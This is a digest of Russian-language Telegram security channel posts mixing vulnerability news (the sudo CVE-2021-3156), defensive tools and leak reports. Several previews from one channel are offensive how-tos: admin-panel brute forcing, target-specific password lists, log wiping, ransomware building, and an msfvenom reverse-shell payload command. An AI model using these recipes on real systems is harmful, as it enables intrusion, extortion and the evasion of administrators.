





# chkpchat
`2021-01-31 20:00:35`

<blockquote>
https://supportcenter.checkpoint.com/supportcenter/portal?eventSubmit_doGoviewsolutiondetails&#61;&amp;solutionid&#61;sk171751
</blockquote>

<table><tr><td><b>→</b><a href="https://supportcenter.checkpoint.com/supportcenter/portal?eventSubmit_doGoviewsolutiondetails=&solutionid=sk171751">
https://supportcenter.checkpoint.com/supportcenter/portal?eventSubmit_doGoviewsolutiondetails=&solutionid=sk171751
</a>
<blockquote>
CVE-2021-3156 states: &quot;Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via &quot;sudoedit -s&quot; and a command-line argument that ends with a single backslash character.&quot; For more information, refer to &lt;a href&#61;&quot;https://www.sudo.ws/stable.html&#35;1.9.5p2&quot; target&#61;&quot;_blank&quot;&gt;https://www.sudo.ws/stable.html&#35;1.9.5p2&lt;/a&gt;
</blockquote>
</td></tr></table>

---

# isast
`2021-01-29 22:24:39`

<blockquote>
Sourcetrail is:
 - free
 - working offline
 - operating on Windows, macOS and Linux
 - supporting C, C++, Java and Python
 - offering an SDK (SourcetrailDB) to write custom language extensions

Sourcetrail - free and open-source interactive source explorer
https://github.com/CoatiSoftware/Sourcetrail
</blockquote>

---

# phd_soc
`2021-01-29 19:19:31`

<blockquote>
https://github.com/synlay/logstash-filter-cache-redis
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/synlay/logstash-filter-cache-redis">
https://github.com/synlay/logstash-filter-cache-redis
</a>
<blockquote>
Redis cache filter for Logstash. Contribute to synlay/logstash-filter-cache-redis development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# isast
`2021-01-28 14:51:48`

* https://kali.tools/?p=3245
* https://github.com/VirusTotal/yara/

<blockquote>
https://kali.tools/?p&#61;3245

YARA — это инструмент направленный (но не ограничивающийся этим) на помощью исследователям вредоносного программного обеспечения для идентификации и классификации образцов зловредных программ. С YARA вы можете создать описания семей вредоносных программ (или чего-либо, что захотите описать) на основе текстовых или бинарных образцов. Каждое описание (ещё называемое «правило») состоит из набора строк и булевых выражений, которые определяют его логику. Взгляните на пример:
rule silent_banker : banker
{
    meta:
        description &#61; &quot;This is just an example&quot;
        threat_level &#61; 3
        in_the_wild &#61; true
 
    strings:
        $a &#61; {6A 40 68 00 30 00 00 6A 14 8D 91}
        $b &#61; {8D 4D B0 2B C1 83 C0 27 99 6A 4E 59 F7 F9}
        $c &#61; &quot;UVODFRYSIHLNWPEJXQZAKCBGMT&quot;
 
    condition:
        $a or $b or $c
}
Вышеприведённое правило говорит YARA, что о файле, содержащем одну из трёх строк, нужно сообщить как о silent_banker. Это простой пример, более сложные и мощные правила можно создавать используя постановочные символы, чувствительные к регистру строки, регулярные выражения, специальные операторы и многие другие функции, описанные в документации YARA.

YARA является многоплатформенной, работает на Windows, Linux и Mac OS X и может использоваться как из её интерфейся командной строки, так и из ваших собственных скриптов Python через расширение yara-python.

Если вы планируете использовать YARA для сканирования сжатых файлов (.zip, .tar и т. д.), то обратите внимание на yextend, очень полезное расширение для YARA с открытым исходным кодом.

Домашняя страница: https://github.com/VirusTotal/yara/

Автор: Google Inc., Victor M. Alvarez и другие авторы

Лицензия: BSD-3-Clause
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/VirusTotal/yara">
https://github.com/VirusTotal/yara
</a>
<blockquote>
The pattern matching swiss knife. Contribute to VirusTotal/yara development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# isast
`2021-01-28 14:49:48`

<blockquote>
https://github.com/virustotal/yara
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/virustotal/yara">
https://github.com/virustotal/yara
</a>
<blockquote>
The pattern matching swiss knife. Contribute to VirusTotal/yara development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-28 14:01:12`

<blockquote>
Брутфорс админки сайта в termux [root](https://telegra.ph/Brutfors-adminki-sajta-v-termux-root-07-17)
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Brutfors-adminki-sajta-v-termux-root-07-17">
https://telegra.ph/Brutfors-adminki-sajta-v-termux-root-07-17
</a>
<blockquote>
Всем привет! нашел инструмент для брута админок сайтов на популярных cms. Программа сама определяет какая cms стоит на сайте. Но к сожалению программе нужен рут. Перейдем к установке. Источник статьи Обновим пакеты: apt update &amp;&amp; apt upgrade Теперь скачаем python: apt install python python2 Также нужен git, curl, tor и tsu: apt install git curl tor tsu Теперь качаем сам инструмент: git clone https://github.com/moli1369/brutecms Открываем папку с ним: cd brutecms И делаем файл исполняемым: chmod +x brutecms.sh…
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-28 09:48:36`

* https://telegra.ph/Poluchaem-proksi-servera-09-06

<blockquote>
Получаем прокси сервера
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Poluchaem-proksi-servera-09-06">
https://telegra.ph/Poluchaem-proksi-servera-09-06
</a>
<blockquote>
Всем привет! Нашел инструмент для получения прокси давайте сразу перейдем к установке. источник статьи Качаем гит apt install git Python 3: apt install python Качаем requests: pip3 install requests Качаем инструмент: git clone https://github.com/04x/HttpLiveProxyGrabber.git Открываем папку с ним: cd HttpLiveProxyGrabber Теперь запускаем: python ProxGrab.py Пишем 1 enter, далее начальный ip, конечный ip и порт. сохраняем это в файл, и заново запускаем, только теперь пишем 2 и список в txt, прога начнет…
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-28 09:09:05`

* https://telegra.ph/Generiruem-paroli-dlya-bruta-pod-opredelennogo-cheloveka-07-11-2

<blockquote>
Генерация паролей для брута под определенного человека
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Generiruem-paroli-dlya-bruta-pod-opredelennogo-cheloveka-07-11-2">
https://telegra.ph/Generiruem-paroli-dlya-bruta-pod-opredelennogo-cheloveka-07-11-2
</a>
<blockquote>
Всем привет! Рассказал уже про два инструмента для брута, теперь расскажу как создать словарь по данным которые у вас имеются о человеке. Источник статьи Сначала обновим все: pkg update -y &amp;&amp; pkg upgrade -y Теперь качаем нужные пакеты: pkg install python git Осталось клонировать нужный нам репозиторий: git clone https://github.com/utpalbalse/PasswordListGener Открыть его папку: cd PasswordListGener И запустить сам файл: python setup.py После того как вы заполните нужные поля для создания словаря, у вас…
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-27 12:52:23`

<blockquote>
⚠️Buffer overflow in sudo (linux utility) - ❗️ affects most distributions/versions - CVE-2021-3156
While a local user is required to exploit this vulnerability, even the account 'nobody' can exploit this vulnerability. An unprivileged user can gain root privileges on affected hosts!

Check if you are affected!
To check if you are affected, run sudoedit -s / as non-root user. If the response is sudoedit: your system is vulnerable.

The following &quot;sudo&quot; versions are vulnerable
* All legacy versions from 1.8.2 to 1.8.31p2
* All stable versions from 1.9.0 to 1.9.5p1

Severity: 🔸High

Additional information
https://yt.gl/sudobufferoverflow

&#35;alert &#35;severityHigh &#35;vulnerability &#35;linux &#35;sudo 

🌟 Feel free to discuss this issue in @itsectalk 👍 Please vote if this information was helpful to you.
</blockquote>

<table><tr><td><b>→</b><a href="https://yt.gl/sudobufferoverflow">
https://yt.gl/sudobufferoverflow
</a>
<blockquote>
Update Feb 3, 2021: It has been reported that macOS, AIX, and Solaris are also vulnerable to CVE-2021-3156, and that others may also still be vulnerable. Qualys has not independently verified the…
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-27 10:56:54`

<blockquote>
https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
</blockquote>

<table><tr><td><b>→</b><a href="https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit">
https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
</a>
<blockquote>
Update Feb 3, 2021: It has been reported that macOS, AIX, and Solaris are also vulnerable to CVE-2021-3156, and that others may also still be vulnerable. Qualys has not independently verified the…
</blockquote>
</td></tr></table>

---

# isast
`2021-01-27 10:48:48`

<blockquote>
OWASP Devsecops Maturity Model

Когда речь заходит о модели оценки зрелости (или в принципе некотором наборе лучших практик) почти всегда вспоминают BSIMM и OWASP SAMM, но оказывается у OWASP есть еще одна модель оценки зрелости - OWASP Devsecops Maturity Model (OWASP DSOMM). Более того, DSOMM и SAMM отлично сосуществуют вместе в рамках единого процесса. Это связано с тем, что цель DSOMM - определить конкретные активности для организации процесса безопасной разработки, а SAMM - задать некоторый roadmap без погружения в детали. 

- Описание активностей, их статуса, связей с SAMM, ISO270001 и друг  другом
- Подробное видео про OWASP DSOMM 
- Ссылка на репозиторий с докладами, инструментами для оценки зрелости и ее визуализации

Еще очень много активностей находятся в стадии to-do, но репозиторий регулярно обновляется.

Кстати, если вы ищите другие альтернативные модели оценки зрелости, то предлагаю взглянуть на Secure development and deployment guidance от UK National Cyber Security Center.

&#35;dev &#35;ops
</blockquote>

---

# cyberoffru
`2021-01-27 10:22:37`

<blockquote>
https://cve.mitre.org/cgi-bin/cvename.cgi?name&#61;2021-3156
2021, прекрати (с)
</blockquote>

<table><tr><td><b>→</b><a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3156">
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3156
</a>
<blockquote>
Common Vulnerabilities and Exposures (CVE®) is a list of records — each containing an identification number, a description, and at least one public reference — for publicly known cybersecurity vulnerabilities. Assigned by CVE Numbering Authorities (CNAs) from around the world, use of CVE Records ensures confidence among parties when used to discuss or share information about a unique software vulnerability, provides a baseline for tool evaluation, and enables data exchange for cybersecurity automation.
</blockquote>
</td></tr></table>

---

# isast
`2021-01-27 08:02:32`

<blockquote>
Релиз MS onefuzz 2.0.0

https://github.com/microsoft/onefuzz

&quot;Added

Agent: Added clarifying context to file system errors. &#35;423

CLI/Service: Significantly expanded the events available for webhooks. &#35;394

Agent: Added {setup_dir} to configuration value expansion &#35;417

Agent: Added {tools_dir} configuration value expansion to {supervisor_options} and {supervisor_env} &#35;444

Changed

CLI/Service: Migrated onefuzz status top to use Webhook Events. (BREAKING CHANGE) &#35;394

CLI/Service: New notification secrets, such as ADO tokens, are managed in Azure KeyVault and are no longer accessible to the user once created. (BREAKING CHANGE) &#35;326, &#35;389

CLI/Service: Updated multiple Python dependencies. &#35;426, &#35;427, &#35;430&quot;
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/microsoft/onefuzz">
https://github.com/microsoft/onefuzz
</a>
<blockquote>
A self-hosted Fuzzing-As-A-Service platform. Contribute to microsoft/onefuzz development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-26 23:00:49`

<blockquote>
https://github.com/crazy-max/WindowsSpyBlocker
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/crazy-max/WindowsSpyBlocker">
https://github.com/crazy-max/WindowsSpyBlocker
</a>
<blockquote>
Block spying and tracking on Windows. Contribute to crazy-max/WindowsSpyBlocker development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# isast
`2021-01-26 22:35:47`

* https://www.sudo.ws/

<blockquote>
Heap-based buffer overflow in Sudo (CVE-2021-3156)

Nice write-up and root cause analysis of the bug. 

Summary
&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;

We discovered a heap-based buffer overflow in Sudo
(https://www.sudo.ws/). This vulnerability:

- is exploitable by any local user (normal users and system users,
  sudoers and non-sudoers), without authentication (i.e., the attacker
  does not need to know the user's password);

- was introduced in July 2011 (commit 8255ed69), and affects all legacy
  versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to
  1.9.5p1, in their default configuration.

We developed three different exploits for this vulnerability, and
obtained full root privileges on Ubuntu 20.04 (Sudo 1.8.31), Debian 10
(Sudo 1.8.27), and Fedora 33 (Sudo 1.9.2). Other operating systems and
distributions are probably also exploitable.

https://www.openwall.com/lists/oss-security/2021/01/26/3
</blockquote>

<table><tr><td><b>→</b><a href="https://www.sudo.ws/">
https://www.sudo.ws/
</a>
</td></tr></table>

---

# cyberoffru
`2021-01-26 17:07:26`

* https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/

<blockquote>
Google Threat Analysis Group (TAG) выпустили отчет, в котором рассказали, что северокорейские хакеры создали своеобразную &quot;медовую ловушку&quot; для инфосек исследовтелей.

Если в обычном случае &quot;медовой ловушки&quot; в качестве приманки используется образ прекрасной незнакомки, одиноко грустящей где-то в недрах Tinder или Facebook, то в случае с инфосек экспертами это вряд ли бы прокатило. Ведь единственное, что может затмить им глаза - это информация о новой, свежей уязвимости. Этим хонгильдоновы сыны и воспользовались.

Северокорейцы создали фейковый блог, посвященный информационной безопасности, а также множество вымышленных аккаунтов в Twitter, в которых постили ссылки на материалы блога, видео с использованием эксплойтов и т.д. Далее они устанавливали контакт с настоящими инфосек исследователями и предлагали совместное взаимодействие.

В одном случае они, кстати, запостили фейковое видео про якобы работающий эксплойт свежей уязвимости CVE-2021-1647 в Windows Defender, но их быстро раскусили, после чего они стали дефендить себя же с других своих аккаунтов.

После установления контакта и использования приемов социальной инженерии хакеры из КНДР предлагали работать над совместным проектом Visual Studio, в котором, естественно, сидела вредоносная библиотека.

Само собой, что этот прием срабатывал, как мы полагаем, нечасто, в силу чего северокорейцы развернули цепочку эксплойтов 0-day уязвимостей для Chrome и Windows 10 на своем инфосек-блоге, посредством которых заражали посещающих его экспертов.

Северокорейский фейковый инфосек блог находится здесь - blog .br0vvnn .io. Ни в коем случае не заходите! Информация чисто для сведения!

Остается добавить, что один из наших редакторов около года назад чуть не поймал два трояна, посещая исключительно инфосек ресурсы. Мы бы погрешили на то, что он тайком смотрит порно, но он абсолютный гик и асексуал. Думаем на китайцев.
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/">
https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/
</a>
<blockquote>
Google TAG warns security researchers to be on the lookout when approached by unknown individuals on social media.
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-26 11:45:10`

* https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/

<blockquote>
Google Threat Analysis Group (TAG) выпустили отчет, в котором рассказали, что северокорейские хакеры создали своеобразную &quot;медовую ловушку&quot; для инфосек исследовтелей.

Если в обычном случае &quot;медовой ловушки&quot; в качестве приманки используется образ прекрасной незнакомки, одиноко грустящей где-то в недрах Tinder или Facebook, то в случае с инфосек экспертами это вряд ли бы прокатило. Ведь единственное, что может затмить им глаза - это информация о новой, свежей уязвимости. Этим хонгильдоновы сыны и воспользовались.

Северокорейцы создали фейковый блог, посвященный информационной безопасности, а также множество вымышленных аккаунтов в Twitter, в которых постили ссылки на материалы блога, видео с использованием эксплойтов и т.д. Далее они устанавливали контакт с настоящими инфосек исследователями и предлагали совместное взаимодействие.

В одном случае они, кстати, запостили фейковое видео про якобы работающий эксплойт свежей уязвимости CVE-2021-1647 в Windows Defender, но их быстро раскусили, после чего они стали дефендить себя же с других своих аккаунтов.

После установления контакта и использования приемов социальной инженерии хакеры из КНДР предлагали работать над совместным проектом Visual Studio, в котором, естественно, сидела вредоносная библиотека.

Само собой, что этот прием срабатывал, как мы полагаем, нечасто, в силу чего северокорейцы развернули цепочку эксплойтов 0-day уязвимостей для Chrome и Windows 10 на своем инфосек-блоге, посредством которых заражали посещающих его экспертов.

Северокорейский фейковый инфосек блог находится здесь - blog .br0vvnn .io. Ни в коем случае не заходите! Информация чисто для сведения!

Остается добавить, что один из наших редакторов около года назад чуть не поймал два трояна, посещая исключительно инфосек ресурсы. Мы бы погрешили на то, что он тайком смотрит порно, но он абсолютный гик и асексуал. Думаем на китайцев.
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/">
https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/
</a>
<blockquote>
Google TAG warns security researchers to be on the lookout when approached by unknown individuals on social media.
</blockquote>
</td></tr></table>

---

# dataleak
`2021-01-26 10:00:11`

<blockquote>
В открытый доступ был выложен дамп сервера, содержащего документы нескольких московских медицинских (стоматологических) организаций – предположительно ООО «ЮНОВа» и ООО «Клиника Здоровье». 😱

Всего выложено 120,085 файлов общим размером 248,38 Гб, в том числе договора, внутренние документы, списки пациентов, списки сотрудников и многое другое. Некоторые документы датируются 2004-2012 гг., но есть и 2019-2020 гг.

Предположительно сервер с открытым портом 3389 (MS RDP) был взломан через одну из известных уязвимостей (CVE-2019-0708), либо перебором паролей.
</blockquote>

---

# overlamer1
`2021-01-25 16:07:28`

* https://telegra.ph/Hidemyass-ochishchaem-sistemnye-logi-01-03

<blockquote>
Hidemyass: очищаем системные логи
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Hidemyass-ochishchaem-sistemnye-logi-01-03">
https://telegra.ph/Hidemyass-ochishchaem-sistemnye-logi-01-03
</a>
<blockquote>
В этой статье мы покажем небольшой скрипт, который поможет скрыть следы своего присутствия в системе. Hidemyass - это инструмент для очистки журналов доступа, когда вы действительно хотите скрыться от администратора. Скрипт тщательно модифицирует системный журнал, удаляя несколько записей журнала вместо всего файла журнала. Кроме того, права доступа к файлу, owner/group и ctime/atime сохраняются как старый файл. Установка: &gt; git clone https://github.com/pannzh/hidemyass &gt; cd hidemyass/ &gt; make clean …
</blockquote>
</td></tr></table>

---

# MPSIEMChat
`2021-01-25 11:36:49`

<blockquote>
Или попробовать заиспользовать неофициальный sdk https://github.com/feedb/MPSiem_addons/tree/master/mpsiemlib
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/feedb/MPSiem_addons/tree/master/mpsiemlib">
https://github.com/feedb/MPSiem_addons/tree/master/mpsiemlib
</a>
<blockquote>
реп полезностей для PT MaxPatrol SIEM. Contribute to feedb/MPSiem_addons development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-24 14:48:47`

* https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28

<blockquote>
Связка Backdoor'a и файла (Kali)
</blockquote>

<table><tr><td><b>→</b><a href="https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28">
https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28
</a>
<blockquote>
Инструмент Trojanizer использует WinRAR (SFX), чтоб сжать два файла между собой и преобразовать их в исполняемый архив SFX (.exe). SFX-архив при работе запускает оба файла (наш payload и легальное приложение одновременно). Откуда скачать? git clone https://github.com/r00t-3xp10it/trojanizer.git Далее создаем пейлоад, используя msfvenom msfvenom -p windows/meterpreter/reverse_tcp lhost&#61;192.168.1.111 lport&#61;4466 -f exe &gt; /root/Desktop/backdoor.exe Запуск Trojanizer Переходим в папку с Trojanizer и запускаем Trojanizer.sh…
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-21 05:12:53`

* https://telegra.ph/GonnaCry-sobiraem-virus-vymogatel-dlya-linuks-11-13-3

<blockquote>
GonnaCry: собираем вирус вымогатель для линукс
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/GonnaCry-sobiraem-virus-vymogatel-dlya-linuks-11-13-3">
https://telegra.ph/GonnaCry-sobiraem-virus-vymogatel-dlya-linuks-11-13-3
</a>
<blockquote>
Всем привет! Вы скорее всего знаете про вирусы вымогатели по типу WannaCry, Petya и т.п. Но данные вымогатели не работают под линукс, но я нашел такой, но с другим названием. Как вы поняли он называется GonnaCry. Переходим к установке. источник статьи Обновим пакеты: apt update apt upgrade Качаем гит и питон: apt install git apt install python Теперь билдер: git clone https://github.com/tarcisio-marinho/GonnaCry.git Открываем папку: cd GonnaCry Теперь для сборки понадобится pyinstaller: pip3 install pyinstaller…
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-20 09:01:06`

<blockquote>
был плагин, который позволял xss и sql-инъекции подставлять, hackbar вроде назывался. А вообще глянь сборку owasp mantra или https://github.com/mazen160/Firefox-Security-Toolkit
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/mazen160/Firefox-Security-Toolkit">
https://github.com/mazen160/Firefox-Security-Toolkit
</a>
<blockquote>
A tool that transforms Firefox browsers into a penetration testing suite - mazen160/Firefox-Security-Toolkit
</blockquote>
</td></tr></table>

---

# isast
`2021-01-19 20:36:18`

<blockquote>
https://github.com/jdbirdwell/afl

&quot;For programs that accept input via a network, use:

$ ./afl-fuzz -i testcase_dir -o findings_dir [-D delay_before_write] \
             [-t timeout_delay] [-L ] -N network_specification /path/to/program \
       [...params...]

where -L is specified only if the target program acts as a client to a network
server (sends data to the server before receiving input in return).  Otherwise,
afl-fuzz assumes the target program acts as a server or daemon and expects to
receive data from network clients and respond.  The network_specification
and the delay parameters are discussed below in (12).&quot;

&quot;12) Fuzzing network services
----------------------------

Both client and server (daemon) programs that communicate using an 
IP network (IPv4 or IPv6) can be fuzzed using the command line

$ ./afl-fuzz -i testcase_dir -o findings_dir [-D delay_before_write] \
             [-t timeout_delay] [-L] -N network_specification /path/to/program \
       [...params...]

where the network_specification has a form similar to a URL:

    [tcp|udp]://hostspec:port

Afl-fuzz has two network fuzzing modes, where it acts as a client to a
network server that expects input via a socket (no -L option), and where it
acts as a server to a network client that sends data to afl-fuzz before
receiving input (using the -L option).  In the first case, afl-fuzz sends data
to the port specified by the URL.  In the second case, afl-fuzz receives data
on that port and sends a (fuzzed) response to the port the target (client) used
to send its data.

Note that when afl-fuzz acts as a server (the -L option), there is no control
over how the target client manages its use of sockets - and in particular, a
client that uses ephemeral sockets (the usual case) will rapidly consume the
network stack's pool of available sockets.  Some operating systems are able to
reclaim used ephemeral sockets to keep the pool from being exhausted; others
may experience difficulties.

While the -D and -t command line arguments are optional, they are almost
always necessary when fuzzing a program using network protocols, as
described below.

Case is irrelevant in the network specification.  For programs that
use a stream (connection-based) protocol, use TCP, and for programs
that use a datagram (connectionless) protocol, use UDP.  The hostspec
must be one of ::1 (forcing IPv6 networking), 127.0.0.1 (forcing IPv4
networking), and localhost (which is typically configured as IPv4 but
may suppport IPv6 on some systems).  Only loopback networking (local
to the host) is supported.  The port must be either a port number in
the range 1..65535 or a service name known to the system being used.
You can test programs that use privileged ports, but you then have to
provide afl-fuzz with those additional privileges (e.g., root).  It is
usually better to reconfigure the program being tested so that it will
use a non-privileged port during fuzzing.

Programs that implement network services, also called daemons, are
typically transaction-based: They wait for a request and send a
response, and some expect a sequence of request/response transactions.
Afl-fuzz implements fuzzing only for the first write to the target
program and ignores all responses from the target.  Most network
services expect to run as background processes and process requests
from many processes -- they do not normally exit.  A timeout delay is
required in order to terminate these processes, and the default
timeout delay used in afl-fuzz is usually too long.  The user needs to
experimentally determine a timeout delay (in milliseconds) that
produces a sufficiently low percentage of hangs (exits forced by
expiration of the delay) while allowing the input to the target from
afl-fuzz to be completely processed.  (Note that afl-fuzz will usually
count these hangs as a single unique hang.) Since a network service
does not normally exit, the initial timing performed by afl-fuzz will
fail unless a '+' character is appended to the timeout_delay
parameter, indicating that afl-fuzz is to ignore these timeouts.
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/jdbirdwell/afl">
https://github.com/jdbirdwell/afl
</a>
<blockquote>
american fuzzy lop for network fuzzing (unofficial) -- official afl site is http://lcamtuf.coredump.cx/afl/ - jdbirdwell/afl
</blockquote>
